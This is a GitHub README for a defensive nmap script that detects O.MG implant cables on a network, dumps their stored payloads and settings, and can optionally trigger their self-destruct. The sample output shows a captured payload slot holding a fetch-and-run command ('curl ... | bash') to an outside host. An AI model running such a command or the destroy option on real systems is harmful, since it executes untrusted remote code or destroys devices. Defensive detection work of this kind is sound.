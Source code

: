 # NMAP SCRIPT to defend agains O.MG-cables in own network

After showcasing a non-public tool which enumerates and destroys an O.MG cable
connected to a blueteam controlled network on [Twitter](https://twitter.com/mame82/status/1222652772597870592)
@_MG_ gave a pretty clear statement in response:

```
The “defeat” was putting it on a hostile network :p. I know you don’t have a cable yet but If you go through the setup docs you’ll see that the network is the security boundary for the current firmware.
But it looks like you’ve made the first 3rd party frontend!

9:16 pm · 30. Jan. 2020
```

Even if the cable user should be aware of this, I think a valid deployment use case from red side would be to connect the cable to a blueteam controlled WiFi,
in order to obtain upstream Internet access.

To counter exactly this case, I ported the showcased tool to an `nmap NSE script`,which is able to detect and enumerate (dump payloads and settings) the cable
in defender controlled networks.

**In addition, an optional `script-arg` has been introduced, which could remotely
trigger the self destruct functionality of the cable after enumerstion.**

See `notes.md` for additional protocol/API details further details.

## demo video

[![nmap video demo](https://img.youtube.com/vi/0CGpxQB8P-4/0.jpg)](https://youtu.be/0CGpxQB8P-4)

## install

Copy `http-omgcable.nse` into nmap's script director or run nmap from a folder containing the script.

## usage

Enumeration only:

```
nmap -p 80 --script http-omgcable <target>
```

Enumeration and self-destruct:

```
nmap -p 80 --script http-omgcable --script-args 'http-omgcable.destroy' <target>
```

## nmap output

```
PORT STATE SERVICE
80/tcp open http
| http-omgcable: O.MG cable detected
|
|
| boot payload enabled (x 01 00 00 00 if enabled)
| -----------------------------------------------
| 0007F800 FF FF FF FF ....
|
| boot payload (encoded in binary triplets [cmd,mod,key])
| -------------------------------------------------------
| EMPTY
|
| payload slot 1
| --------------------
| STRING curl -sL decoded.tk/x|bash
| ENTER
|
| payload slot 2
| --------------------
| EMPTY
|
| payload slot 3
| --------------------
| STRING this is the content of payload slot 3
|
| IP addr
| --------------------
| 000B0000 FF FF FF FF ....
|
|
| user data section 1
| --------------------
| 000FD000 FF FF FF FF FF FF FF FF 02 FF FF FF FF FF FF FF ................
..snip..
| 000FD090 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF ................
| 000FD0A0 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF ................
| 000FD0B0 0A 00 00 00 4F 2E 4D 47 2D 43 61 62 6C 65 00 00 ....O.MG-Cable..
| 000FD0C0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
| 000FD0D0 00 00 00 00 31 32 33 34 35 36 37 38 00 00 00 00 ....12345678....
..snip..
|
|
| user data section 2
| --------------------
| 000FE000 FF FF FF FF FF FF FF FF 02 FF FF FF FF FF FF FF ................
..snip..
| 000FE260 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF ................
|
|
| send destroy command to cable...
|\_...done

```

# licensing

Same as Nmap - See http://nmap.org/book/man-legal.html
